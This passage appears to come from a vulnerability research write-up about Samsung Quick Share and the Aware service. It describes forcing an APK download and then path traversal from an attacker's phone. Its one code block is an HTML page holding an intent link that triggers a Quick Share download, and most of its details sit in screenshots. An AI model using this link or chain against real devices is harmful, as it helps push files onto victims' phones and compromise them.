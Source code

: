 Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*Mfj7TRA5G8VMXt9aVuEO-w.png)

so lets see how it works its quick share agent customize by Samsung to share files with other users by share nearby or by using QR code to share

```
<html>
  <body>
   <h1>
      <a herf="intent://quickshare.samsungcloud.com/<DownloadCode>;Intent;component=com.samsung.android.app.sharelive/com.samsung.android.app.sharelive.presentation.applink.QrCodeAppLinkActivity;scheme=https;end;>download</a>
   </h1>
</body>
</html>

```

so until now by using Quick Share we can download the apk at `/sdcard/Download/Quick Share/` but Smart Switch cant access it

> Time to Path Traversal `com.samsung.android.aware.service`

*   Receiver

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*IMk0JyqI2-KbPhpHzMgH0g.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*X3_WoAssC-e0prBVdCsXKg.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*yqKI_vYdpMDdbplF3-i-UA.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*ZpL4_HDhOyImi6XRUBWa2g.png)

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*jmaIowD5puxhTeDraG9sjA.png)

until now we did see how the application receive the connection and data from Attacker Phone

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — —

I tried to see it from sender side but didn’t find it so lets see it from receiver side and i think they both use same way to create the Json and receive it

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:1050/1*D48nn05LG0IDDPF1UEQ4iA.png)
